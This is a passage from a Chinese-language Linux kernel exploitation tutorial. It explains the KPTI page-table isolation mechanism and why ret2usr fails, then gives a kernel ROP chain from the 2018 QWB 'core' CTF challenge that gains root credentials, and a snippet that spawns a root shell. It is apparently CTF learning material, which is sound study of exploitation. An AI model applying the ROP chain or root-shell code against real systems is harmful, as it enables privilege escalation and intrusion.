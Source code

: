 ```json
        "    }",
        "",
        "    success(\"Successful to get the root. Execve root shell now...\");",
        "    system(\"/bin/sh\");",
        "}",
        "",
        "int main(){",
        "",
        "",
        "",
        "}"
    ],
    "description": "kernel snippets"
}
```

## 0x04 KPTI机制

`KPTI`机制将内核页表和用户空间页表分开来实现隔离。这里摘录自`arttnba3`师傅的博客：

众所周知 `Linux` 采用**四级页表**结构（`PGD->PUD->PMD->PTE`），而 `CR3` 控制寄存器用以存储当前的 `PGD` 的地址，因此在开启 `KPTI` 的情况下用户态与内核态之间的切换便涉及到 `CR3` 的切换，为了提高切换的速度，内核将内核空间的 `PGD` 与用户空间的 `PGD` 两张页全局目录表放在一段连续的内存中（两张表，一张一页`4k`，总计`8k`，内核空间的在低地址，用户空间的在高地址），这样**只需要将 `CR3` 的第 `13` 位取反便能完成页表切换的操作**

![image.png](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/Rm8Ti9MpVUZ7fPK.png)

需要进行说明的是，**在这两张页表上都有着对用户内存空间的完整映射，但在用户页表中只映射了少量的内核代码（例如系统调用入口点、中断处理等），而只有在内核页表中才有着对内核内存空间的完整映射**，如下图所示，左侧是未开启 `KPTI` 后的页表布局，右侧是开启了 `KPTI` 后的页表布局

**`KPTI` 同时还令内核页表中用户地址空间部分对应的页顶级表项不再拥有执行权限（`NX`），这使得 `ret2usr` 彻底成为过去式**。

![image.png](https://s2.loli.net/2022/03/11/q74X6lbTnrNGhC1.png)

在 `64` 位下用户空间与内核空间都占 `128TB`，所以他们占用的页全局表项（`PGD`）的大小应当是相同的，图上没有体现出来，**必定在某个节点上同时存在着完整的对用户空间与内核空间的映射**，这个节点就是当 `CPU` 运行在内核态时

**以上均摘录自`arttnba3`师傅的博客**，总结得非常详细。笔者本人初学时一度有疑问，既然存在`KPTI`机制的绕过，为什么还说`ret2usr`成为过去式？事实上这是因为`KPTI`机制的“绕过”只是使得我们可以切换`CR3`寄存器来切换页表到用户页表，然而在内核态时用户地址空间页表对应的地址仍然不具有可执行权限，这才是`ret2usr`失效的主要原因。

## 0x05 kernel ROP - Basic

如果不是对`kernel`存在敬畏，对于`kernel ROP`应该没有什么学习成本，因为和用户态下的`ROP`无本质区别。用户态下我们需要通过`system("/bin/sh")`来获得一个`shell`，而内核态下我们需要通过`commit_creds(prepare_kernel_cred(NULL))`来提权为`root`（是的，高版本还需要`commit_creds(prepare_kernel_cred(&init_task))`或`commit_creds(&init_cred)`））。

例如，这是笔者在做`2018qwb_core`中的`ROP chain`：

```c
rop_chain[i++] = POP_RDI_RET + offset;
rop_chain[i++] = 0;
rop_chain[i++] = prepare_kernel_cred;
rop_chain[i++] = POP_RCX_RET + offset;
rop_chain[i++] = commit_creds;
rop_chain[i++] = MOV_RDI_RAX_POP_RBP_JMP_RCX + offset;
rop_chain[i++] = 0; // pop_rbp
rop_chain[i++] = SWAPGS_POPFQ_RET + offset;
rop_chain[i++] = 0; // pop_fq
rop_chain[i++] = IRETQ_RET + offset;
rop_chain[i++] = (size_t)get_root_shell;
rop_chain[i++] = user_cs;
rop_chain[i++] = user_rflags;
rop_chain[i++] = user_sp;
rop_chain[i++] = user_ss;
```
